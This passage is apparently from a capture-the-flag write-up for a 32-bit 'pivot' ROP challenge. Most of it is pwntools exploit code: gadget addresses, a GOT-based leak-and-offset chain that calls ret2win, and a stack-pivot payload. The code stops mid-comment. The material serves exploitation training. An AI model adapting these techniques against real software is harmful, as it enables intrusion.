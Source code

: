 Combining these gadgets with our curated values we
can construct a payload to call `ret2win`!

```python
#!/bin/python3
from pwn import *

pop_eax = 0x0804882c
add_eax_ebx = 0x08048833
pop_ebx = 0x080488b6
dereference_eax = 0x08048830
foothold_got_plt = 0x0804a024
foothold_addr = 0x08048520
ret2win_offset = 0x1f7
call_eax = 0x080485f0

# create flag payload
# call foothold_function() to lookup
# current .got.plt address
flag_payload = p32(foothold_addr)
# calculate ret2win address
flag_payload += p32(pop_eax) + p32(foothold_got_plt)
flag_payload += p32(dereference_eax)
flag_payload += p32(pop_ebx) + p32(ret2win_offset)
flag_payload += p32(add_eax_ebx)
# call ret2win
flag_payload += p32(call_eax)
```

## Exploit
We have everything we need to build our exploit

```python
#!/bin/python3
from pwn import *

pop_eax = 0x0804882c
add_eax_ebx = 0x08048833
xchg_esp_eax = 0x0804882e
pop_ebx = 0x080488b6
call_eax = 0x080485f0
dereference_eax = 0x08048830
foothold_got_plt = 0x0804a024
foothold_addr = 0x08048520
ret2win_offset = 0x1f7

# set esp to addr
def set_esp(addr):
    payload = p32(pop_eax) + p32(addr)
    payload += p32(xchg_esp_eax)
    return payload

# create pivot payload
io = process('./pivot32')
io.recvuntil(b'pivot: ')
addr_output = io.recvline()
# remove \n and convert to number
malloc_addr = addr_output[0:-1]
malloc_addr = int(malloc_addr, 16)
pivot_payload = b'A' * 44
pivot_payload += set_esp(malloc_addr)

# create flag payload
# call foothold_function() to lookup
```